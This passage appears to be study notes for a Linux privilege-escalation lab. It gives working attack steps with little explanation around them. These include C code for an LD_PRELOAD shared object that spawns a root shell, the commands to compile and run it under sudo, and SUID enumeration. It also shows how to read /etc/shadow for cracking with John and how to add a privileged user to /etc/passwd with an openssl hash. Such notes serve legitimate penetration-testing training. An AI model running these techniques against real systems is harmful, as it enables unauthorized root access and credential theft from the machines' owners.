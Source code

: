 1. `sudo -l` - Check for LD_PRELOAD with the env_keep option.
2. Write a simple c code compiled as shared object (with the .so extension).
3. Run the program with sudo and the LD_PRELOAD option pointing to our shared object.

The c code that will spawn a root shell:

```
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

`gcc -fPIC -shared -o <.so output file name> <.c file name> -nostartfiles` - Compile the file into a shared object.

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so <program>` - Run a program the user can run with sudo, with the LD_PRELOAD set to our shared object.

## SUID

SUID (Set-user identification) and SGID (Set-group identification) allows programs to execute with the permission of the user or group owner.

`find / -type f -perm -04000 -ls 2>/dev/null` - List files which have SUID or SGID bit set.

With SUID set for Nano we can elevate privileges by reading the `/etc/shadow file` or by adding our user to the `/etc/passwd` file.

##### Reading The `/etc/shadow` file

`unshadow passwd.txt shadow.txt > passwords.txt` - After reading the contents of `/etc/shadow` you can use this to crack the password with John.

##### Add a New User to The `/etc/passwd` File

`openssl passwd -1 -salt THM password1` - Hash value for the password of the new user.

Now add a new line to the `/etc/passwd` file with the hash and `/bin/bash` as the shell.

## Capabilities

Capabilities help manage privileges on a more granular level, giving employees access only to the resources they need.

`getcap -r 2>/dev/null` - List enabled capablities

You can use gtfobins for capabilities too.

## Cron Jobs
